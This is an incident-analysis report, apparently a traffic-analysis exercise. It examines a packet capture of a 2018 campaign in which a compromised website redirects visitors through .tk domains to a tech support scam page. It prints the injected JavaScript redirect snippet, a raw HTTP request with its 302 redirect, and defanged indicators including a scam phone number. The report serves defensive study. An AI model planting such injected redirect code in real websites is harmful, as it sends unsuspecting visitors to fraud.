

# Wireshark Traffic Analysis: Multi-Stage Fake AV Redirect Campaign (2018-01-08)

## Case Overview

This report analyzes a PCAP capturing a multi-stage browser-based attack involving:

- A compromised legitimate website injecting malicious JavaScript
- Redirects to attacker-controlled `.tk` domains
- A final tech support scam landing page urging victims to call a fake toll-free number

PCAP Source: [malware-traffic-analysis.net – 2018/01/08](https://www.malware-traffic-analysis.net/2018/01/08/index.html)  
Related Analysis: [SANS ISC Diary – Fake AV Pages](https://isc.sans.edu/diary/Fake+antivirus+pages+popping+up+like+weeds/23207)

---

## Timeline of Events

| Step | Description |
|-------|-------------|
| 1 | Victim (`10.1.8.101`) visits compromised site `proactivo.com.pe` |
| 2 | HTTP response includes injected JavaScript that redirects to `raksupp0rt0701234567890[.]tk` |
| 3 | Victim’s browser sends GET request to `raksupp0rt0701234567890[.]tk` (`204.155.28.5`) |
| 4 | Server responds with HTTP 302 redirect to `tehcallinghere07012345[.]tk/?number=888-794-9521` |
| 5 | Victim would be directed to a tech support scam page urging a call to a fake toll-free number |

---

## Detailed Findings

### Stage 1 – Malicious JavaScript Injection

- The legitimate site `proactivo.com.pe` returned an HTTP response containing this JavaScript snippet:

```javascript
popup_ = readCookie543534("1561065164894_CRYPPER");
var randomnumber = Math.random();
if ("1" != popup_) {
  createCookie13123213("1561065164894_CRYPPER", "1", 1);
  window.location = "http://raksupp0rt0701234567890[.]tk/index/?2661511868997";
}
```
This script sets a cookie to avoid repeated redirects and forces the browser to navigate to the attacker’s domain.


### Stage 2 – Redirect Server Interaction

- The victim’s browser connects to raksupp0rt0701234567890.tk (204.155.28.5) and sends:

GET /index/?2661511868997 HTTP/1.1
Host: raksupp0rt0701234567890[.]tk

- The server responds with an HTTP 302 redirect:

Location: http://tehcallinghere07012345[.]tk/?number=888-794-9521

  
  


### Stage 3 – Final Tech Support Scam Landing

- The redirected URL contains a phone number parameter:

  http://tehcallinghere07012345[.]tk/?number=888-794-9521

- This is a classic tech support scam technique designed to trick victims into calling a fraudulent toll-free number and paying for fake services.

## Indicators of Compromise

| Type               | Value                        |
| ------------------ | ---------------------------- |
| Victim IP          | `10.1.8.101`                 |
| Compromised Site   | `proactivo.com.pe`           |
| Redirect Domain 1  | `raksupp0rt0701234567890[.]tk` |
| Redirect Server IP | `204.155.28.5`               |
| Redirect Domain 2  | `tehcallinghere07012345[.]tk`  |
| Scam Phone Number  | `888-794-9521`               |

## Threat Analysis Summary

- The attacker compromised a legitimate website to inject JavaScript that triggers browser redirects.
- The victim’s browser followed multiple redirects, ending at a tech support scam domain.
- No malware executable was directly observed in the capture.
- This multi-stage redirect and social engineering is typical of browser locker and fake AV scams.
